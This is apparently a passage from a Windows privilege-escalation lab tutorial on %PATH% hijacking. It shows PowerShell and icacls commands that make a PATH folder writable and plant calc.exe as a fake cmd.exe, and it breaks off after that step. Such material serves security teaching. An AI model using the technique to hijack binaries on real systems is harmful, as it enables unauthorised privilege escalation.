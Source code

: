 Alternatively, if we have access to the GUI we can go to:
- System Properties -> Advanced -> Environment Variables... -> System variables

# %PATH% Hijacking Privilege Escalation

To create a vulnerable $PATH hijacking scenario we need the following requirements:

- PATH contains a writable folder.
- The writable folder is **before or above** the folder that contains the legitimate binary.

The "vulnerability" or "problem" lies in the fact that if we're able to write to a directory that's before or above the valid program/command/tool/application, we can then create a malicious binary with the same name as the valid program/command/tool/application. Once it is found Windows will stop searching for the program since it will assume that it found it and it will execute it:

```powershell
C:\Windows\system32 # First search in here, if its not here then continue
C:\Windows          # If we have write access then we can create a malicious binary with the same name as the valid binary. Once the binary -name- is found Windows will stop searching for the program since it will assume that it found it and it will execute it.
C:\Windows\System32\Wbem 
C:\Windows\System32\WindowsPowerShell\v1.0\
C:\Windows\System32\OpenSSH\ # Valid binary is here but it won't be executed since it already found it and it stopped searching.
C:\Program Files\dotnet\
```

Run PowerShell and create a directory:

```powershell
mkdir C:\Temp
```

Add the `modify` (M) permission:

```powershell
PS C:\Windows\system32> icacls.exe "C:\Temp" /grant "NT AUTHORTY\Authenticated Users:M"
NT AUTHORTY\Authenticated Users: No mapping between account names and security IDs was done.
Successfully processed 0 files; Failed processing 1 files

PS C:\Windows\system32> icacls.exe "C:\Temp"
C:\Temp BUILTIN\Administrators:(I)(OI)(CI)(F)
        NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
        BUILTIN\Users:(I)(OI)(CI)(RX)
        NT AUTHORITY\Authenticated Users:(I)(M)
        NT AUTHORITY\Authenticated Users:(I)(OI)(CI)(IO)(M)

Successfully processed 1 files; Failed processing 0 files
```

Copy `calc.exe` to `C:\Temp\cmd.exe`:

```powershell
PS C:\Windows\system32> where.exe calc.exe
C:\Windows\System32\calc.exe

PS C:\Windows\system32> copy C:\Windows\System32\calc.exe C:\Temp\cmd.exe
```
